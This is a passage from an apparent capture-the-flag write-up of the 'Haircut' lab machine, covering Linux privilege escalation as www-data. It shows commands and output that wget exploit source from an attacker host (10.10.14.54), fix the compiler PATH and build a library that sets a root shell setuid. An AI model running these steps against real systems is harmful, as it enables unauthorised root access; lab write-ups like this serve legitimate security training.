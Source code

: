 ```console
www-data@haircut:/tmp$ /tmp/rootshell
/tmp/rootshell: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by /tmp/rootshell)
www-data@haircut:/tmp$ ls -l /lib/x86_64-linux-gnu/libc.so.6
ls -l /lib/x86_64-linux-gnu/libc.so.6
lrwxrwxrwx 1 root root 12 Mar 21  2017 /lib/x86_64-linux-gnu/libc.so.6 -> libc-2.23.so
```

- **fix compiler's problem** -> add cc1's dir into PATH environment variable

```console
www-data@haircut:/tmp$ wget http://10.10.14.54:8888/libhax.c
wget http://10.10.14.54:8888/libhax.c
--2024-01-09 21:39:30--  http://10.10.14.54:8888/libhax.c
Connecting to 10.10.14.54:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 252 [text/x-csrc]
Saving to: 'libhax.c'

libhax.c            100%[===================>]     252  --.-KB/s    in 0s

2024-01-09 21:39:30 (54.5 MB/s) - 'libhax.c' saved [252/252]

www-data@haircut:/tmp$ gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
gcc: error trying to exec 'cc1': execvp: No such file or directory
```

**EXP:**

- compile two c files (one shared library file and one binary file)

```console
www-data@haircut:/tmp$ find / -name cc1 2>/dev/null
find / -name cc1 2>/dev/null
/usr/lib/gcc/x86_64-linux-gnu/5/cc1
www-data@haircut:/tmp$ echo $PATH
echo $PATH
/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:.
www-data@haircut:/tmp$ export PATH=$PATH:/usr/lib/gcc/x86_64-linux-gnu/5
export PATH=$PATH:/usr/lib/gcc/x86_64-linux-gnu/5
www-data@haircut:/tmp$ echo $PATH
echo $PATH
/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:.:/usr/lib/gcc/x86_64-linux-gnu/5
www-data@haircut:/tmp$ which cc1
which cc1
/usr/lib/gcc/x86_64-linux-gnu/5/cc1
www-data@haircut:/tmp$ gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
/tmp/libhax.c: In function 'dropshell':
/tmp/libhax.c:7:5: warning: implicit declaration of function 'chmod' [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
```
